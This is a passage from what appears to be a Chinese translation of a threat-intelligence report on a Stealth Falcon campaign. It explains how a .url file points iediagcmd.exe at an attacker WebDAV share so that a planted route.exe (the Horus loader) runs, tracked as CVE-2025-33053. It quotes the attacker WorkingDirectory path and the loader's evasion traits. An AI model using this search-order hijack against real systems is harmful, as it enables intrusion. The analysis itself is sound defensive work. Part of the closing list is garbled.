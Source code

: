   
  
此 Internet 快捷方式文件中的参数 URL 指向 iediagcmd.exeInternet Explorer 的合法诊断实用程序。  
  
通常，此实用程序在运行时会生成其他进程来收集诊断数据，例如：  
  

```
ipconfig.exe /all
netsh.exe in tcp show global
netsh.exe advfirewall firewall show rule name=allverbose
route.exeprint
```

  
  
使用标准 .NET Process.Start() 方法：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tafQoxRH2H6ico44FhKibcbnuAhHPg33lEM2pRAQUmpEicxib3U89ZAkSkbV2RzlYzLaBsxXBMjibaGqR7Q/640?wx_fmt=webp&from=appmsg "")  
  
图 1 – 合法的 iediagcmd.exe 生成辅助进程。LaunchProcess 函数在底层使用了标准的 .NET Process.Start() 方法。  
  
根据搜索顺序， Process.Start() 函数首先在调用应用程序的当前文件夹中搜索要运行的可执行文件。由于工作文件夹被 .url 更改为攻击者控制的 WebDAV 服务器路径   
  

```
WorkingDirectory=\\summerartcamp[.]net@ssl@443/DavWWWRoot\OSYxaOjr，
```

  
  
该 iediagcmd 工具将运行 route.exe 攻击者放置的可执行文件，   
\\summerartcamp[.]net@ssl@443/DavWWWRoot\OSYxaOjr\route.exe 而不是文件夹中的合法可执行文件 system32 。  
  
我们在报告后面分析的恶意软件中的一些痕迹表明，威胁行为者还 CustomShellHost.exe以类似的方式滥用另一个合法的可执行文件，导致它  从其工作文件夹中生成。 explorer.exe  
  
之前曾讨论过一种类似的技术， 即通过 .url 文件从远程服务器加载 DLL 并进行 DLL 劫持，但直到现在我们才发现该技术被用于可执行文件。在向 Microsoft 报告后，该问题被编号为 CVE-2025-33053。  
  
执行 .url 文件后，将释放以下多阶段感染链：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tafQoxRH2H6ico44FhKibcbnuAwhQ9spooEB9dbjQrpLIYa5ib8Lyx1fhjpGpVXsiaUMat83TNbYl29icbg/640?wx_fmt=webp&from=appmsg "")  
  
图 2 – 感染链。  
  
Route.exe – Horus 加载器  
  
从攻击者的 WebDAV 服务器执行的恶意文件 route.exe 充当多阶段加载器。它用 C++ 编写，并使用 Code Virtualizer（一种代码保护系统），该系统将代码转换为自定义虚拟机 (VM) 指令，使逆向工程师难以分析或修改。它是 Themida 保护器的轻量级版本，Stealth Falcon 之前曾大量使用过，但缺少 Themida 附加的混淆、反调试、防篡改和反挂钩功能。加载器已签名，但签名已过期且没有 TSA 时间戳，这可能会阻止某些安全产品使用 Code Virtualizer 或 Themida 自动检测未签名的样本。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafQoxRH2H6ico44FhKibcbnuAV9yfjFQQv4qRBj242nxJYhnFJj15ItowJYnDXjCyLcKjzPuDy4Lhsg/640?wx_fmt=png&from=appmsg "")  
  
图 3 – Horus 加载器的数字证书。  
  
XXXXXXHorus Loader 具有高度可定制性，其每个功能均由“ ”格式的默认值控制：  
- 清理前几个阶段的遗留问题  
  
- 实施逃避  
  
- 投放并执行诱饵文档  
  
- 加载最终有效载荷  
  